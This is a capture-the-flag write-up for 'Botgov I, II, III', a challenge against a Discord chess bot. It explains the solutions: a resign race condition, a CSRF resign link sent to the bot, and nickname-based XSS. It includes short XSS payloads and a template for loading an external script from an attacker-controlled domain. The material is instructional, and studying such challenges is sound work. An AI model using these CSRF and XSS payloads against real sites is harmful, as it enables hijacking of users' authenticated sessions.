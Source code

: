# Botgov I, II, III

**Category**: misc, web

**Author**: koks

## Description

Botgov is waiting for you on Discord. Can you beat him?

## Solution

<details>
 <summary>Botgov I</summary>

The goal is to beat Botgov in a game of chess on Discord.

This can be solved in several ways:

- Due to a bug, you can send a `!chess resign` command while Botgov is thinking. The game will resign whoever has the current turn.
- Mirror the moves on another board (e.g. lichess.org) against a chess engine smarter than Botgov (Stockfish 8).
- Train your chess skills until you become a Grandmaster and come back to beat Botgov fair and square.

</details>

<details>
 <summary>Botgov II</summary>

Resigning now can only happen via the big red button in the `/botgov-ii/{game-uuid}` page. When clicked it sends a `GET /botgov-ii/{game-uuid}/resign` request and you resign the game. This request is credentialled with your cookie.

Let's see if there's a way to trick Botgov into visiting `/botgov-ii/{game-uuid}/resign` (CSRF).

In the `!chess help` menu there's a `!chess cybersec [input]` command where we can send cyber security blog posts for Botgov to visit, and read. We can send him a very nice read located at `/botgov-ii/{game-uuid}/resign`, he visits it and he resigns from our game. We get the flag in a Discord message.

</details>

<details>
 <summary>Botgov III</summary>

Again, resigning can only happen via the big red button in the `/botgov-ii/{game-uuid}` page. But this time when clicked it sends a `POST /botgov-ii/{game-uuid}/resign` request and you resign the game. This request is credentialled with your cookie.

The previous CSRF trick will not work because now we have a POST request.

In the HTML there's a comment on how the person who built this page has poor HTML skills. This is an indication for an injection in the HTML (i.e. XSS)

We control 2 inputs:

1. Our Discord avatar. We control the image that's displayed but the URL is coming from Discord itself. No luck here.
2. Our Discord nickname OR username.

If we change our nickname to something like "/>" we will see it disappear from the page.

We can use this XSS to call the resign() function, and send a link to the page to Botgov via `!chess cybersec` like Botgov II. The XSS will trigger in his browser, it will send the POST request along with HIS cookie, he will resign the game and we'll get the flag!

Limitations of Discord nicknames:

- Maximum 32 characters
- Some special characters are not allowed
- If you change the Username instead of the Nickname, there's a 2 hour cooldown before being able to change it again.

Sample nickname payloads:

- \<img srx=x onerror=resign()/>
- \<body onload="resign()">

Or if you control a very short domain, you can include arbitrary Javascript and execute whatever you want:

- \<script src=//{8 chars domain}>\</script>

</details>
